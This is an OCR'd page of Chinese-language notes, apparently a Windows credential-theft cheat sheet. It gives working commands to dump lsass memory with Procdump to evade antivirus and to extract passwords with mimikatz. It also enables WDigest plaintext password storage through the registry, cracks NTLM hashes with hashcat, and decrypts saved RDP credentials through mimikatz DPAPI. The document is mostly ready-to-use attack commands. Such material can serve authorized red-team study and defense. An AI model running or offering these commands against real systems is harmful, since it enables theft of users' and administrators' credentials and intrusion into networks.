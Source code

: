 ~~~
2、离线读
https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump
实验1：针对防护拦截(Mimikatz被拦截)
Procdump是微软官方的工具，可在命令行将lsass导出且杀软不会拦截
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.DMP"
sekurlsa::logonPasswords full
实验2：针对高版本但有存储(内存还有数据的)
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.DMP"
sekurlsa::logonPasswords full

3、解决高版本
修改注册表+强制锁屏+等待系统管理员重新登录+截取明文密码
修改注册表来让Wdigest Auth保存明文口令方式
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1

4、HASH破解
https://hashcat.net/
https://www.cmd5.com/
https://www.somd5.com/
hashcat cmd5 somd5
518b98ad4178a53695dc997aa02d455c
https://www.cnblogs.com/Junglezt/p/16044372.html
-m 密文类型
-a 破解类型
?l 小写
?s 符号
?d 数字
字典破解：
.\hashcat.exe -a 0 -m 1000 .\hash.txt .\pass.txt
暴力破解：
hashcat.exe -a 3 -m 1000 518b98ad4178a53695dc997aa02d455c ?l?l?l?l?l?s?s?s?d?d

5、RDP凭据抓取   
查看连接记录：
cmdkey /list
查找本地的Credentials：
dir /a %userprofile%\appdata\local\microsoft\credentials\*
Credentials记录guidMasterKey值:
mimikatz dpapi::cred /in:C:\Users\webadmin\appdata\local\microsoft\credentials\5FBB2585F99BA05366F08E52F1C1740B
找到guidMasterKey对应的MasterKey:
mimikatz sekurlsa::dpapi
解密指定的MasterKey凭据：
mimikatz dpapi::cred /in:C:\Users\webadmin\appdata\local\microsoft\credentials\5FBB2585F99BA05366F08E52F1C1740B /masterkey:f70e1a641096f1b63731d571b43b33aaf009f6af5a3352504e6ddb3cd158f17eec2d541f18b8289ebf547d871dfb257a6bbbd5232550eb6f26a06d39378da4a5

~~~
